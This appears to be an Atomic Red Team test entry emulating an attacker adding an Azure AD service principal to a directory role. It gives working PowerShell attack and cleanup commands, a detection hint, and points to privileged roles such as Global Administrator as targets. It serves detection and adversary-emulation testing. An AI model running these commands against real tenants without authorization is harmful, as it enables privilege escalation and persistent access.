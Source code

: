 ## Atomic Test #5 - Azure AD - adding service principal to Azure AD role

The adversaries want to add service principal to some Azure AD role. Threat actor
may be interested primarily in highly privileged roles, e.g. Global Administrator, Application Administrator,
Privileged Authentication Administrator (this role can reset Global Administrator password!).
By default, the role Global Reader is assigned to service principal in this test.

The account you use to run the PowerShell command should have Privileged Role Administrator or Global Administrator role in your Azure AD.

Detection hint - check Activity "Add member to role" in Azure AD Audit Logs. In targer you will also see Service Principal as a type.

**Supported Platforms:** Azure-ad

**auto_generated_guid:** 92c40b3f-c406-4d1f-8d2b-c039bf5009e4

#### Inputs:

| Name                   | Description                        | Type   | Default Value    |
| ---------------------- | ---------------------------------- | ------ | ---------------- |
| username               | Azure AD username                  | string | jonh@contoso.com |
| password               | Azure AD password                  | string | p4sswd           |
| service_principal_name | Name of the service principal      | string | SuperSP          |
| role_name              | Name of the targeted Azure AD role | string | Global Reader    |

#### Attack Commands: Run with `powershell`!

```powershell
Import-Module -Name AzureAD
$PWord = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Pword
Connect-AzureAD -Credential $Credential

$sp = Get-AzureADServicePrincipal -Filter "DisplayName eq '#{service_principal_name}'"
if ($sp -eq $null) { Write-Warning "Service Principal not found"; exit }
$role = Get-AzureADDirectoryRole -Filter "DisplayName eq '#{role_name}'"
if ($role -eq $null) { Write-Warning "Role not found"; exit }
Add-AzureADDirectoryRoleMember -ObjectId $role.ObjectId -RefObjectId $sp.ObjectId
Write-Host "Service Principal $($sp.DisplayName) was added to $($role.DisplayName)"
```

#### Cleanup Commands:

```powershell
Import-Module -Name AzureAD -ErrorAction Ignore
$PWord = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Pword
Connect-AzureAD -Credential $Credential -ErrorAction Ignore

$sp = Get-AzureADServicePrincipal -Filter "DisplayName eq '#{service_principal_name}'"
if ($sp -eq $null) { Write-Warning "Service Principal not found"; exit }
$role = Get-AzureADDirectoryRole -Filter "DisplayName eq '#{role_name}'"
if ($role -eq $null) { Write-Warning "Role not found"; exit }

Remove-AzureADDirectoryRoleMember -ObjectId $role.ObjectId -MemberId $sp.ObjectId
Write-Host "Service Principal $($sp.DisplayName) was removed from $($role.DisplayName) role"
```
